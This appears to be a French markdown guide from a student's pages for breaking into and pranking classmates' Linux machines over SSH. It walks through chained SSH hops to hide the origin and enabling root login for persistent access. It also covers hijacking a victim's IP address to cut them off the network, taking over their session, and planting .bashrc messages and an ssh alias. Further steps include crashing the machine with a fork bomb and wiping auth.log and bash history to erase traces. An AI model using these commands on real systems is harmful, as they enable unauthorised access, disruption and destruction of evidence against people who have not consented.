

<link rel="stylesheet" type="text/css" href="/assets/css/red-theme.css">

# CONNEXION SSH (LES PREPARATIFS)

## Être intraçable (Méthode en cascade) :

- Se connecter à PC 1
  ```
  ssh sio@172.17...
  ```
- Depuis le PC 1 -> Se connecter à PC 2
  ```
  ssh sio@172.17...
  ```
- Depuis le PC 2 -> Se reconnecter à PC 1
  ```
  ssh sio@172.17...
  ```
- Nettoyer les logs de PC 1
  ```
  sudo truncate -s 0 /var/log/auth.log
  ```

---

## Créer un accès à l'ordinateur indéfiniment :

Sur le PC où vous vous êtes connecté, autorisez les connexions à sa session root :

- Editez ce fichier : 
    ```
    sudo vim /etc/ssh/sshd_config
    ```
- Créez la ligne **'PermitRootLogin yes'** :

    
- Redemarrez le service SSH : 
    ```
    sudo systemctl restart ssh
    ```

## SI IMPOSSIBLE DE VOUS CONNECTER : 

- Créez un Conflit d'adresse IP :
    ```
    su -
    ```
    ```
    ip addr add [adresse_IP_du_mec]/24 dev [nom interface inutilisé]
    ```

Cela permet d'utiliser la même adresse IP de la personne, et créera donc un conflit d'adresse IP, la personne ne pourra pas communiquer avec le réseau (si elle possède seulement une interface pour communiquer avec le réseau)


# SI CONNEXION REUSSI

## Connectez vous à la session (active) de la personne :

- Passer en Mode Super Utilisateur (Root) :
    ```
    sudo -i
    ```
    

- Pour accéder à la session d'un utilisateur spécifique :

    ```
    su - [nom_utilisateur]
    ```

- **`nom_username`** : remplacez par le nom de l'utilisateur.

---

## ⚠️ Ouvrir un Terminal à Distance (Condition ci-dessous à respecter)

⚠️ Condition : ⚠️  
Ces commandes fonctionnent seulement si vous avez réussi à vous connecter directement sur la session active du mec à partir de "ssh".

Ouvre un terminal :

```
gnome-terminal
```
Tape la commande 'gnome-terminal' 10 fois avec le message "Coucou"

```
for i in {1..10}; do gnome-terminal -- bash -c "sleep 0.2; echo 'Coucou'; exec bash"; sleep 0.2; done
```

---

## Envoyer un Message à un Terminal Actif

1. Tu te connecte sur une session n'importe d'un PC
   ```
   ssh sio@172.17...
   ```
2. Tu te met en root :
   ```
   sudo -i
   ```
   ou
   ```
   su -
   ```
3. Tu te bascule sur la session active du mec :
   ```
   su - [nom_du_mec]
   ```
4. Une fois connecté sur sa session,  
Envoyer un message à un terminal ouvert :
    ```
    echo "TEXTE" > /dev/pts/0
    ```
- Remplacez **`Coucou`** par votre message.

## Envoyer une Notification

À faire quand vous êtes sur la session :

```
notify-send "texte"
```


---

## Message à Chaque Ouverture de Terminal

### Ajouter un Message de Troll

Modifiez le fichier `.bashrc` pour exécuter une commande à chaque ouverture de terminal :

```
echo "echo 'Vous avez été piraté !'" >> /home/username/.bashrc
```

---

## ⚠️ Ajouter des Alias à des Commandes (à remettre par défaut)

### Exemple d'Aliasing pour SSH

Pour rediriger une commande SSH vers un autre utilisateur :

1. Ouvrez le fichier `.bashrc` :

```
vim /home/user/.bashrc
```

2. Ajoutez l'alias à la fin du fichier :

```
alias ssh='ssh sio@192.168.1.1'
```

### Recharger le Fichier .bashrc

Pour appliquer les modifications :

```
source /home/user/.bashrc
```

---

## ⚠️ Faire crash un PC (À utiliser avec précaution) :

```
:(){ :|:& };:
```

## Autres Trolls Visuels

### Afficher un Train

Installez le paquet `sl` pour afficher un train dans le terminal :

```
apt install sl
```

Pour exécuter le train sur le terminal d'un autre utilisateur :

```
sl > /dev/pts/0
```

### Cowsay

Installez `cowsay` pour afficher un message avec une vache parlante :

```
apt install cowsay
```

Pour afficher "Meuuuh" :

```
echo "Meuuuh" | cowsay > /dev/pts/0
```

### Effet Matrix

Installez `cmatrix` pour l'effet :

```
apt install cmatrix
```

Pour exécuter l'effet :

```
cmatrix > /dev/pts/0
```

### Message Toilette

Installez `toilet` pour formater le texte :

```
apt install toilet
```

Pour envoyer un message "GAYPRIDE" :

```
echo "GAYPRIDE" | toilet --gay > /dev/pts/0
```

### Simulation d'Aquarium

Installez `asciiquarium` pour afficher un aquarium animé :

```
sudo snap install asciiquarium
```

Pour exécuter l'aquarium :

```
asciiquarium > /dev/pts/0
```

---

## Gestion des Fichiers de Log

### Vider le Fichier `auth.log`

Pour vider le contenu du fichier de log d'authentification :

```
sudo truncate -s 0 /var/log/auth.log
```

### Effacer l'Historique des Commandes Bash

#### Effacer l'Historique de la Session

Pour supprimer le fichier d'historique :

```
rm /home/user/.bash_history
```

#### Vider l'Historique en Mémoire

Pour vider l'historique des commandes en mémoire :

```
history -c
```

---

## Déconnexion

Pour vous déconnecter de la session SSH :

```
exit
```

---

## Supprimer l'Interface que Vous Avez Créée pour la Connexion

Avant de supprimer, vérifiez si votre nouvelle IP est bien dans les logs :

```
grep -i 'ADDRESSE_IP' /var/log/syslog
```

Pour supprimer l'interface que nous avons créée :

```
vim /etc/netplan/50-cloud-init.yaml
```

(Puis, supprimez l'interface manuellement).

---

## Redémarrer le Service Réseau

N'oubliez pas de redémarrer votre service réseau :

```
sudo netplan apply
```

---

## Supprimer Maintenant le Fichier de Log

```
truncate -s 0 /var/log/auth.log
```

---

### **[↩️ Retour](index.md)**